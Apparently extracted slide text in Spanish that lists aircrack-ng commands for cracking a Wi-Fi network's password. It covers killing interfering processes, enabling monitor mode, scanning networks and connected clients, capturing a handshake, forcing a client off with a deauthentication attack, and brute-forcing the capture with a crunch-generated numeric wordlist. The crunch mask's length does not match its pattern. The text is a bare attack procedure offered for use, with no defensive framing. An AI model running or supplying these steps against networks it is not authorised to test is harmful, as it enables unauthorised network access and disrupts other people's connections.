

Comando a utilizar
airmon-ng check kill Comando que mata los procesos que puedan evitar crackear la red
airmon-ng start wlan0
airodump-ng wlan0mon Escanea todas las redes wifi que se encuentren alrededor y se puede observarque clientes estan conectados a la red wifi
airodump-ng -c canal -w archivo.cap  --bssid macDelRouter wlan0mon autentificación
aireplay-ng -0 5 -a macDelRouter -c macDeAlgunCliente wlan0mon Hacemos que el cliente se autentique de nuevo
crunch 8 8 -t %%%%%%%%%% 1234567890 | aircrack-ng -w - archivo.cap -e nombreDelRouter